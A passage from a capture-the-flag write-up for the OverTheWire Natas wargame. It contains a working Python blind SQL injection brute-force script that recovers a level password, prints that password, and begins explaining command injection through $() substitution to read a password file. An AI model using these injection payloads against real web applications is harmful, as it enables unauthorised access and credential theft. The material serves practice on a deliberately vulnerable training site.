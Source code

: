 ```python
    if 'user exists' in req.text:  
        chars_in_pswd = chars_in_pswd + char  
  
# Print the chars that are contained in the final password  
print(chars_in_pswd)  
  
# Execute the brute-force attack  
for count in range(0,32):  
    for char in chars_in_pswd:  
        brute_force_payload = {'username': 'natas16" and password LIKE BINARY "' + pswd + char + '%" #'}  
        request = requests.post(url, auth=authentication, data=brute_force_payload)  
        if 'user exists' in request.text:  
            pswd = pswd + char  
		  print(pswd)
            break
            
# Print the final password  
print("The password for the next level of natas is: ", pswd)

```

It should take up to 5 minutes, once completed here is the password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

I encourage you to practice and create your own best version of this ;)
<br/>

---

### Natas 16
Access the website with the link : http://natas16.natas.labs.overthewire.org .  <br>
Insert the credentials :  <br>
username : natas16  <br>
password : TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V  <br>

Another web form to exploit yaii, looking at the source code we can notice that this time there is a filter that will block some chars: 
```
/[;|&`\'"]/
```

One interesting new is the absence of a mySQL database, the word is checked using the `grep` Linux command inside a text file called "dictionary.txt".
This is the full command
```bash
grep -i \"$key\" dictionary.txt
```

As we did on the first levels, we want to break this grep command to make it display the password, which is contained in /etc/natas_webpass/natas17 .

Luckily for us they didn't filter out all the special chars, in fact we can still use `$()` to apply *command substitution*, rather than using `''`.
As from the GNU documentation: "Command substitution allows the output of a command to replace the command itself."
